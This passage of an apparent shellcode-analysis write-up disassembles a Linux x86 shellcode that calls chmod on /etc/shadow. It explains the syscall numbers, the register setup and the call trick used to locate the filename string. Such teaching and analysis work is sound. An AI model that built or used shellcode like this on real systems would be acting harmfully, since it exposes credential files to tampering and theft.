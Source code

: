## Dividing the Shellcode by Systemcalls
Since we know that the instruction `int 0x80` is used to execute linux systemcalls, we will use this knowlege to divid this shellcode into two sections.  
We also know that the value of the `eax` register controls which systemcall will be executed.  
+ Our first systemcall has the eax value of `0xf`.
+ Our second systemcall has the eax value of `0x1`.

### chmod() Systemcall Section
#### Finding the Systemcall in the Header File
```console
i /usr/include/i386-linux-gnu/asm/unistd_32.h
  #define __NR_chmod               15
```
+ The hex value `0xf` translates to `15` in decimal.

#### chmod() C Function
```console
root# man 2 chmod
  int chmod(const char *path, mode_t mode);
       EAX         EBX             ECX
```
+ The corresonding assembly register values have been tagged onto the C function.

## chmod() Broken Down by Blocks
### First Block 
```console
=> 0x0804806b <+0>:     cdq
   0x0804806c <+1>:     push   0xf
   0x0804806e <+3>:     pop    eax
   0x0804806f <+4>:     push   edx
```

1. Instruction `cdq` is used to clear out the `edx` register.
+ `cqd` - Covert Doubleword to Quadword
  - a Doubleword is 32 bits (one register)
  - a Quadword   is 64 bits (two registers)
  - if eax is a positive value, the edx will be clear - `edx: 0x00000000`
  - if eax is a negiative value, the edx will be full - `edx: 0xffffffff`
2. Instruction `push 0xf` pushes the byte `0xf` onto the top of the stack.
3. Instruction `pop eax` puts the value `0xf` into the `eax` register from the top of the `stack`.
+ `EAX: 0xf`
+ This is the `EAX` value for the `chmod` systemcall.
4. Instruction `push edx` pushes 4 bytes `0x00` (a dword) onto the top of the stack.
  
### Second Block
This block of code uses the `call` instruction to jump over the block shown here, and continue execution of the shellcode. 

```console
   0x08048070 <+5>:     call   0x8048081 <shellcode+22>
   0x08048075 <+10>:    das
   0x08048076 <+11>:    gs
   0x08048077 <+12>:    je     0x80480dc
   0x08048079 <+14>:    das
   0x0804807a <+15>:    jae    0x80480e4
   0x0804807c <+17>:    popa
   0x0804807d <+18>:    outs   dx,DWORD PTR fs:[esi]
   0x0804807f <+20>:    ja     0x8048081 <shellcode+22>
```
+ When the `call` instruction is executed, the memory location of the next instruction will be stored otno the top of the stack before maing the jump.
+ The memory location stored on the top of the stack is actually the address of our string used for the filename `/etc/shadow`.